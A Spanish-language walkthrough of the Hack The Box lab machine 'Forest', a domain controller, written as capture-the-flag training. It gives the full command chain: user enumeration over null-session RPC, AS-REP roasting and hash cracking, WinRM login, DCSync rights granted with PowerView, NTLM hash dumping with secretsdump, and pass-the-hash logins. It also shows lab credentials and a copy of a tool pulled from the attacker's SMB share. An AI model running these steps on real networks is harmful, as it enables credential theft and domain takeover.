



Comenzamos realizando un escaneo de puertos abiertos con nmap.

``sudo nmap 10.10.10.161 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``


Sólo con visualizar los puertos abiertos podemos intuir que estamos enfrentándonos a un DC. Una vez conocemos estos puertos abiertos, vamos a observar más a fondo qué servicios están corriendo y bajo qué versiones.

``nmap 10.10.10.161 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703 -oN target``


Con este otro output de nmap tenemos todavía más claro que estamos ante un DC. A su vez, empezamos a tener información de utilidad para resolver el laboratorio. El dominio es htb.local.

Vamos a utilizar la herramienta netexec para enumerar un poco más sobre el DC.

``netexec smb 10.10.10.161``


Confirmamos que el dominio es htb.local y que la máquina se llama FOREST, por lo que lo añadimos al ``/etc/hosts``.


Podemos intentar diferentes técnicas para enumerar los usuarios del dominio. Para este escenario concreto, funciona conectarnos por RPC con null sesion:

``rpcclient -U '' 10.10.10.161 -N``

-> enumdomusers


Tenemos un listado válido de usuarios. No obstante, necesitamos hacer un tratamiento de los datos para generar un diccionario de usuarios. Aquí tenemos la opción de copiar todo el contenido del output, pero por costumbre y comodidad se realiza de forma diferente: se redirige el output a users.txt desde la terminal.

``rpcclient -U '' 10.10.10.161 -N -c 'enumdomusers' > users.txt``

Si miramos el contenido de users.txt, es exactamente lo mismo que el output que vimos anteriormente:


Vamos a hacer un tratamiento a los datos para quedarnos sólo con lo que nos interesa, es decir, la información que está entre los corchetes:

``cat users.txt | cut -d '[' -f2 | cut -d ']' -f1 > realusers.txt``


Una vez tenemos un listado de usuarios válido podemos hacer uso de la técnica AsRepRoasting, incluso aunque no tengamos sus respectivas contraseñas.

``impacket-GetNPUsers -no-pass -usersfile realusers.txt htb.local/ -output hashes.asreproast ``


-> Bingo. Tenemos el hash de svc-alfresco.

Como hemos redirigido el output a hashes.asreproast, no hace falta que nos copiemos el contenido del hash.

Vamos a utilizar hashcat para romper este hash. Si te pasa como a mí que no memorizas los códigos de identificación de hashcat (para este caso ``krb5asrep$23$``), puede averiguarse fácilmente:

``hashcat --help | grep -i "kerberos"``


Una vez sabemos el código de identificación interno de hashcat (18200), lo lanzamos con rockyou como diccionario.

``hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force ``


Nos ha proporcionado una contraseña para el usuario svc_alfresco : s3rvice

No deberíamos tener problema con estas credenciales, pero por metodología vamos a validarlas:

``netexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``


Confirmamos que son credenciales válidas. Vamos a comprobar si permite winrm porque el usuario svc_alfresco forme parte del grupo Remote Management Users.

``netexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``


Pwn3d!, por lo que podemos conectarnos vía evil-winrm.

``evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``


Estamos dentro de la máquina víctima con el usuario svc-alfresco.

En C:\Users\svc-alfresco\Desktop encontramos la flag de usuario:


# PRIVESC

Vamos a utilizar la herramienta BloodHound para ayudarnos en la escalada de privilegios. Para ello:

- Arrancamos neo4j

``sudo neo4j start``

- Arrancamos bloodhound

``bloodhound --no-sandbox &>/dev/null & disown``

Introducimos nuestras credenciales.

Como en este escenario en concreto la víctima tiene el servicio DNS corriendo, podemos enumerar vía bloodhound-python sin necesidad de compartir SharpHound:

``bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -c all -ns 10.10.10.161``


Una vez hemos generado todos los archivos .json, los subimos a bloodhound desde su interfaz gráfica:





Una vez se ha subido correctamente toda la data, buscamos al usuario que tenemos pwneado: svc-alfresco


Y lo marcamos como owned:


Si miramos la información del nodo de svc-alfresco, y más en concreto el apartado "Reachable High Value Targets", vemos cosas interesantes:


El usuario svc-alfresco forma parte del grupo "Service Accounts", que a su vez forma parte de "Privileged It Accounts", que a su vez forma parte de "Account Operators".

Si miramos la información del nodo de "Account Operators", y nuevamente el apartado "Reachable High Value Targets", vemos:


El grupo "Account Operators" tiene el privilegio GenericAll sobre el grupo "Exchange Windows Permissions, que a su vez tiene el privilegio "WriteDacl" sobre el dominio htb.local. Si necesitamos más información sobre la relación que existe entre los grupos o sobre el privilegio, podemos hacer click derecho -> help



Por ejemplo, para este caso, nos confirma lo que vimos en el diagrama: los miembros del grupo "Account Operators"  tienen el privilegio GenericAll sobre el grupo "Exchange Windows Permissions".


A su vez, si queremos ver la relación que hay entre el grupo "Exchange Windows Permissions" y el dominio a través del privilegio WriteDacl, hacemos nuevamente click derecho -> help. A su vez, esto nos permite conocer la forma de explotar este privilegio:


En el apartado "Windows Abuse" nos explica el paso a paso para hacerlo desde dentro.

Si observamos la información que nos facilita BloodHound para la explotación de este privilegio, vemos que necesitamos compartir powerview.ps1 para hacer uso de Add-DomainObjectAcl. Para ello:

- En máquina atacante abrimos smbserver (en el directorio donde tengamos powerview.ps1):
  
``impacket-smbserver -smb2support test .``

- Solicitamos el recurso desde máquina víctima:
  
``copy //10.10.14.4/test/powerview.ps1 powerview.ps1``

Una vez ya lo tenemos en la máquina víctima, comenzamos.

- Creamos usuario pwn:




- Le añadimos al grupo "Exchange Windows Permissions"


Y seguimos los comandos propuestos por Bloodhound, pero adaptados a nuestro escenario (dominio y usuario):

```
$SecPassword = ConvertTo-SecureString 'pwned123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\pwn', $SecPassword)
```

Importamos powerview.ps1 para poder hacer uso de Add-DomainObjectAcl:

``. .\powerview.ps1``

Otorgamos privilegios DCSync al usuario pwn:

``Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwn -Rights DCSync``

Inciso importante.

Aquí bloodhound propone ejecutar el anterior comando identificando al dominio de la siguiente forma: ``-TargetIdentity htb.local``. Sin embargo, cuando se realiza la técnica DCSync desde el usuario pwn, nos salta error mencionando el Distinguised Name.
Error:


Y aunque se utilice -use-vss como nos propone, nos da acceso denegado:


Esto se soluciona identificando al dominio como se ha descrito en el primer comando:

``-TargetIdentity "DC=htb,DC=local"``


Una vez el usuario pwn tiene el privilegio DCSync, lo explotamos vía impacket para volcar todos los hashes NTLM:

``impacket-secretsdump htb.local/'pwn':'pwned123!'@'10.10.10.161'``


Nos vuelca todos los hashes NTLM, pero para continuar nos interesa especialmente el hash del usuario Administrator.

Nos lo copiamos.

Validamos el hashNTLM con netexec:

``netexec smb 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``


Pwn3d!, son credenciales válidas y, efectivamente, de Administrador.

Dado que conocemos el hash NTLM válido de Administrator podemos acceder al sistema víctima con la técnica Pass The Hash. Como nos pone Pwn3d! podemos ingresar vía psexec (para acceder como NTAuthority\System) o wmiexec (para acceder como Adminsitrator), o winRM (si el administrador forma parte del grupo Remote Management Users):

- psexec:

``impacket-psexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'``


- wmiexec:

``impacket-wmiexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'``


- evilwinrm:

Primero deberíamos validar que nos podemos conectar por winrm:

``netexec winrm 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``


Pwn3d!, por lo que podemos utilizar evil-winrm.

``evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``


Podemos conectarnos a la máquina víctima y elevar privilegios de cualquiera de estas tres formas descritas.

Recogemos la flag de Administrator en C:\Users\Administrator\Desktop\root.txt


